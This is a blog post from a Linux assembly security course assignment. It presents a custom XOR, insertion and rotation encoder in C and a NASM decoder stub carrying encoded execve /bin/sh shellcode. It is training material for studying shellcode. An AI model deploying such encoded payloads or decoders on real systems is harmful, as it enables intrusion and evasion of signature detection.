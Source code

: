 ```yaml
---
comments: true
date: 2014-04-09
layout: blog
title: 'SLAE Assignment 4: Custom Encoding Schema'
category: blog
image: /images/header_images/slaelogo.png
tags: [asm-x86,nasm,slae]
---
```


This is the fourth of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

  1. Create a custom encoding schema like "insertion encoder"

  2. Create a working demo using execve-stack as the shellcode to encode, decode and run with the created schema

The custom encoding schema that I chose to create works as follow:

  1. The execve shellcode is encoded with XOR

  2. The result will be encoded using the insertion encoder with an incrementing value

  3. Every 32 bits the above result will be rotated (left or right, you choose) of 16 bits.

To encode the execve shellcode, like I wrote above, I developed the following C program:


```c
//Description:	Assignment #4 (PoC of Custom_Encoding_Schema)
//Author:	Paolo Stivanin <https://github.com/polslinux>
//SLAE ID:	526

#include <stdint.h>
#include <string.h>
#include <stdio.h>
#include <stdlib.h>

#define ROL 0x00
#define ROR !ROL

void concatenate(uint8_t [], uint32_t);
void rotate(uint32_t, uint32_t, uint32_t);
void split_uint32(uint32_t);

uint8_t *finalShellcode;
uint32_t counter = 0;

int main(void){
	uint8_t execveShellcode[] = {0xeb,0x25,0x5e,0x89,0xf7,0x31,0xc0,0x50,0x89,0xe2,0x50,0x83,0xc4,0x03,0x8d,0x76,0x04,0x33,0x06,0x50,0x31,0xc0,0x33,0x07,0x50,0x89,0xe3,0x31,0xc0,0x50,0x8d,0x3b,0x57,0x89,0xe1,0xb0,0x0b,0xcd,0x80,0xe8,0xd6,0xff,0xff,0xff,0x2f,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68};
	uint8_t xorByte = 0x1c;
	uint8_t insertByte = 0xb2;

	size_t LEN=sizeof(execveShellcode);
	uint8_t xorWithInsertion[LEN*2];
	uint32_t i, j=0;

	restart:
	for(i=0; i<LEN; i++){
		if(execveShellcode[i] == xorByte){
			xorByte += 1;
			goto restart;
		}
	}
	for(i=0; i<LEN; i++){
		execveShellcode[i] ^= xorByte;
	}

	printf("XOR(Shellcode) using 0x%02x:\n", xorByte);
	for(i=0; i<LEN; i++){
		if(i==LEN-1) printf("0x%02x", execveShellcode[i]);
		else printf("0x%02x,", execveShellcode[i]);
	}
    
	for(i=0; i<LEN*2; i++){
		xorWithInsertion[i] = execveShellcode[j++];
		xorWithInsertion[++i] = insertByte++;
	}
	printf("\n\nINSERTION(XOR(Shellcode)):\n");
	for(i=0; i<LEN*2; i++){
		if(i==(LEN*2)-1) printf("0x%02x", xorWithInsertion[i]);
		else printf("0x%02x,", xorWithInsertion[i]);
	}	

	printf("\n\nROL16(XOR(INSERTION(Shellcode))):\n");

	finalShellcode = malloc(sizeof(xorWithInsertion));
	concatenate(xorWithInsertion, sizeof(xorWithInsertion));

	for(i=0; i<LEN*2; i++){
		if(i==(LEN*2)-1) printf("0x%02x", finalShellcode[i]);
		else printf("0x%02x,", finalShellcode[i]);
	}
	printf("\n");

	free(finalShellcode);

	return 0;
}
    
void concatenate(uint8_t arr[], uint32_t size){
   	if(size % 4 != 0){
   		printf("Size must be a multiple of 4\n");
   		return;
   	}
   
   	uint32_t i, value = 0;
    
   	for(i=0;i<size;i++){
   		value = value^arr[i];
   		if(i%4 == 3){
   			rotate(value, 16, ROL);
   			value = 0;
   		}
   		else value = value<<8;
   	}
}
    
void rotate(uint32_t input, uint32_t bits, uint32_t direction){
    uint32_t output;
    
    if(direction == ROL){
    	output = input << (bits % (8 * sizeof(uint32_t)));
    	output |= input >> ((8 * sizeof(uint32_t)) - bits % (8 * sizeof(uint32_t)));
    }
    else
    {
    	output = input >> (bits % (8 * sizeof(uint32_t)));
    	output |= input << ((8 * sizeof(uint32_t)) - bits % (8 * sizeof(uint32_t)));
   	}
   	split_uint32(output);
}
    
void split_uint32(uint32_t splitMe){
   	uint32_t j;
   	uint8_t b[4];
   	b[0] = (splitMe >> 24);
   	b[1] = (splitMe >> 16) & 0xff;
   	b[2] = (splitMe & 0xffff) >> 8;
   	b[3] = (splitMe & 0xff);
   	for(j=0; j<4; j++){
   		finalShellcode[counter++] = b[j];
   	}
}
```

And this is the shellcode used to decode and execute the original execve shellcode:

```nasm    
;Description:	Assignment #4 (Custom_Encoding_Schema, 82 (decoder) + 104 (EncodedShellcode) bytes)
;Shellcode:		\xeb\x4b\x5e\x31\xc0\x31\xdb\xb1\x0d\x31\xd2\x8a\x26\x8a\x46\x01\xc1\xc0\x10\x8a\x66\x02\x8a\x46\x03\x83\xc6\x04\x8a\x3e\x8a\x5e\x01\xc1\xc3\x10\x8a\x7e\x02\x8a\x5e\x03\x83\xc6\x04\x88\xe6\xc1\xc0\x10\x88\xf0\xc1\xc0\x10\x88\xfe\xc1\xc3\x10\x88\xf3\x66\x89\xd8\x35\x1c\x1c\x1c\x1c\x50\xfe\xc9\x75\xc0\xff\xe4\xe8\xb0\xff\xff\xff\x74\xe5\x6f\xe4\x33\xe3\x72\xe2\x75\xe1\x7e\xe0\x33\xdf\x33\xde\xe3\xdd\xe3\xdc\xe3\xdb\xca\xda\xf4\xd9\x9c\xd8\xd1\xd7\x17\xd6\xac\xd5\xfd\xd4\x95\xd3\x4b\xd2\x27\xd1\x91\xd0\x4c\xcf\xdc\xce\x2d\xcd\xff\xcc\x95\xcb\x4c\xca\x1b\xc9\x2f\xc8\xdc\xc7\x2d\xc6\x4c\xc5\x1a\xc4\x2f\xc3\x18\xc2\x6a\xc1\x91\xc0\x1f\xbf\xd8\xbe\x9f\xbd\x4c\xbc\xfe\xbb\x95\xba\x4c\xb9\xdc\xb8\x2d\xb7\xeb\xb6\x95\xb5\x42\xb4\x39\xb3\xf7\xb2
;Author:	Paolo Stivanin <https://github.com/polslinux>
;SLAE ID:	526

global _start
section .text
_start:
	jmp short call_shellcode

decoder:
	pop esi
	xor eax,eax
	xor ebx,ebx
	mov cl,13	;This is the counter. The shellcode is 104 bytes and this program read 8 byte every cycle so 104/8=13
	xor edx,edx
ll:	mov ah, BYTE [esi]
	mov al, BYTE [esi +1]
	rol eax,16
	mov ah, BYTE [esi +2] 
	mov al, BYTE [esi +3]
	add esi,4
	mov bh, BYTE [esi]
	mov bl, BYTE [esi +1]
	rol ebx,16
	mov bh, BYTE [esi +2]
	mov bl, BYTE [esi +3]
	add esi,4

	mov dh,ah
	rol eax,16
	mov al,dh
	rol eax,16

	mov dh,bh
	rol ebx,16
	mov bl,dh

	mov ax,bx
	xor eax,0x1c1c1c1c
	push eax
	dec cl
	jnz ll
	jmp esp	

call_shellcode:
	call decoder
	EncodedShellcode db 0x74,0xe5,0x6f,0xe4,0x33,0xe3,0x72,0xe2,0x75,0xe1,0x7e,0xe0,0x33,0xdf,0x33,0xde,0xe3,0xdd,0xe3,0xdc,0xe3,0xdb,0xca,0xda,0xf4,0xd9,0x9c,0xd8,0xd1,0xd7,0x17,0xd6,0xac,0xd5,0xfd,0xd4,0x95,0xd3,0x4b,0xd2,0x27,0xd1,0x91,0xd0,0x4c,0xcf,0xdc,0xce,0x2d,0xcd,0xff,0xcc,0x95,0xcb,0x4c,0xca,0x1b,0xc9,0x2f,0xc8,0xdc,0xc7,0x2d,0xc6,0x4c,0xc5,0x1a,0xc4,0x2f,0xc3,0x18,0xc2,0x6a,0xc1,0x91,0xc0,0x1f,0xbf,0xd8,0xbe,0x9f,0xbd,0x4c,0xbc,0xfe,0xbb,0x95,0xba,0x4c,0xb9,0xdc,0xb8,0x2d,0xb7,0xeb,0xb6,0x95,0xb5,0x42,0xb4,0x39,0xb3,0xf7,0xb2
```

Please note that _EncodedShellcode_ **must be wrote in reverse order**. To perform this task, you can use [this small program](https://github.com/polslinux/SLAE/blob/master/utility/for-shellcode/reverse-shellcode.c) which I have developed.

Using libemu I made a graph of the execution flow of the above shellcode:

[![graph_assign4]({{ site.baseurl }}/images/2014/04/graph_assign4-551x1024.png)]({{ site.baseurl }}/images/2014/04/graph_assign4.png)

It works ;-)

[![assign4]({{ site.baseurl }}/images/2014/04/assign4-1024x525.png)]({{ site.baseurl }}/images/2014/04/assign4.png)

All the sources can be found in my [Github page](https://github.com/polslinux/SLAE/).



This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

**Student ID: SLAE-526**
